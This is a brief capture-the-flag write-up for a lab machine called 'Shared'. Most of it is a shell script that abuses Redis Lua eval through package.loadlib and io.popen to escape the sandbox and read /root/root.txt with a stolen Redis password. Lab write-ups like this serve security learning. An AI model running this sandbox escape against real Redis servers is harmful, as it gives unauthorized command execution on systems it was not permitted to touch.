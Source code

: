 # Shared

Rated as easy, the box involves classic web exploitation, but the root flag requires hacking with Redis:

```sh
# hack.sh

redis-cli --pass "$1" eval 'local t = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = t(); local b = io.popen("cat /root/root.txt"); local s = b:read("*a"); b:close(); return s' 0;
```

Use it like that on the victim's machine: `sh hack.sh {REDIS_ROOT_PASSWORD_YOU_HACKED}`

[Source for inspiration](https://cn-sec.com/archives/1159396.html)